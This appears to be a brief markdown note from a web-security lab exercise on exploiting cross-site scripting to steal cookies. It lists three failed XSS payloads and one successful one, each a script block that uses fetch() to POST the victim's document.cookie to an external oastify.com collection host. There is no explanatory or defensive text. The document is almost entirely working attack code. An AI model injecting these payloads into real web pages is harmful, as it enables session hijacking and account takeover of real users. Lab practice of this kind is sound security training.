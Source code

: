 # Exploiting cross-site scripting to steal cookies

## failed payloads
```html
<script>
fetch("http://r2u1bvcg7lb6aiywpwinpr4ch3nubj.oastify.com/", {
    method: "POST",
    mode: "no-cors",
    body: document.cookie
});
</script>
```

```html
<script>
fetch("http://r2u1bvcg7lb6aiywpwinpr4ch3nubj.oastify.com/");
</script>
```

```html
<script>
fetch("r2u1bvcg7lb6aiywpwinpr4ch3nubj.oastify.com/", {
    method: "POST",
    body: document.cookie
});
</script>
```


## success payload
```html
<script>
fetch("https://r2u1bvcg7lb6aiywpwinpr4ch3nubj.oastify.com/", {
    method: "POST",
    mode: "no-cors",
    body: document.cookie
});
</script>
```
